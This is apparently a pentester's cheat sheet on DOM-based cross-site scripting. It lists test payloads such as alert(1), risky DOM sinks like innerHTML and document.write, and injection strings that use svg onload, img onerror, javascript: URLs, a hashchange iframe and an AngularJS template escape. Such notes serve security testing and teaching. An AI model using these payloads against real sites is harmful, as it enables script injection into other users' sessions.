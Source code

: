 # DOM Based

## Payloads

### Scripts

Test execution

```
alert(1)
alert(window.location.href)
alert(document.domain)
console.log("pwned")
print()
```

## Injection vectors

### document

```
document.write()
document.writeln()
document.domain
```

Allows execution of \<script> blocks

```
"><svg onload="...">
"><script>...</script>
```

### element

```
element.innerHTML
element.outerHTML
element.insertAdjacentHTML
element.onevent
```

Prevents execution of \<script> and SVG blocks use onload/onerror JS calls to run code

```
"><img src="." onerror="...">
```

### Dynamic href

Anchors whose links are controlled by params read by JS scripts can be hijacked

```
<param>=javascript:...
```

### $(...) with hashchange event

```
<iframe src="https://vulnerable-website.com#" onload="this.src+='<img src=1 onerror=...>'">
```

### AngularJS ng-app

```
{{$on.constructor('<...>')()}}
```
